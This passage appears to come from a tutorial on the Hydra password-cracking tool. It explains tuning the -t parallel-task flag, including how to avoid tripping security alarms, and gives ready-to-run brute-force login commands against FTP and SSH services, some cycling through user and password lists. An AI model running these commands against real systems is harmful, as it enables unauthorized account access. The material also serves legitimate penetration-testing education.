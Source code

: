 - **Resource Utilization**: Parallel tasks consume more CPU, memory, and network bandwidth. While a higher number of tasks can speed up the attack, it also increases the load on both the attacking machine and the target system, which might lead to network congestion or system instability.

**Finding the Optimal Number:**

- **Balance**: The key is to find a balance where the number of tasks maximizes the attack speed without overwhelming the network or the systems involved. If the number is too low, the attack will proceed slowly; if too high, it may cause network issues or even trigger security alarms.
  
- **Target Response**: The optimal number of tasks often depends on the responsiveness of the target system and the quality of the network connection. Systems that process requests more slowly may become unresponsive if too many parallel connections are opened.

## Practical Example

Suppose you are attempting to crack an FTP password. You might start with a moderate number of tasks:

```c
hydra -l user -P passlist.txt -t 10 192.168.1.1 ftp
```

In this example, Hydra will make up to 10 simultaneous login attempts against the FTP server at `192.168.1.1`. 

Using the `-t` flag effectively requires monitoring the performance and responsiveness during the attack and adjusting the number of parallel tasks accordingly. 

**Example:**

```c
hydra -l admin -P password_list.txt -t 4 -vV 192.168.0.1 ssh
```

This command tries to log in as “admin” using a list of passwords from `password_list.txt` on the SSH service running on `192.168.0.1`, using 4 parallel tasks and showing detailed output.

### General Network Protocols:

####  SSH 

```bash
hydra -l username -P /path/to/passwordlist.txt ssh://target_ip
```

Or using the short syntax:

```bash
hydra -l username -P passwords.txt ssh://192.168.1.100
```

**Multiple Users and Passwords**

```bash
hydra -L users.txt -P passwords.txt ssh://192.168.1.100 -t 4 -f
```

This tries **every combination** of usernames and passwords in the lists.
